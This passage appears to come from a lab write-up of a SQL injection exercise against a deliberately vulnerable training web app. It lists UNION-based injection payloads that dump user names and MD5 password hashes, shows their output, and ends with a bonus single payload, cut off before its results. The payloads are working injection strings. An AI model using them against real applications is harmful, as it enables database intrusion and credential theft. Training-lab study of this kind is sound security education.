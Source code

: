     - The results will display data from two separate queries:

       - The results from the value of `1`.

       - The first name from the database (displayed in the "First name" field) and the password field from the database (displayed in the "Surname" field), for all the other users:
    
          ```
            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: admin
            Surname: admin

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: admin
            Surname: 5f4dcc3b5aa765d61d8327deb882cf99

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Gordon
            Surname: 575e22bc356137a41abdef379b776dba

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Hack
            Surname: 97b9308f6a1f6a8524a91450dca473fa

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Pablo
            Surname: 8c7c9b1149e9de712b9e5abab45d700c

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Bob
            Surname: 4a02ce029a840716c61ee8fcda10158e`    
          ```

    - This resembles the results of the DB Fiddle query: 
  
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

5. **Bonus**: Use a single payload to pull the first name, last name, and password from the table. 

    - The fifth query was `select first_name, last_name from users where user_id = '1' UNION select concat(first_name,last_name), password from users where '1' = '1'`.
        
    - The payload was `1' UNION select concat(first_name,last_name), password from users where '1' = '1`.
     
    - Enter this payload on the web application and select Submit, to display the following results:
  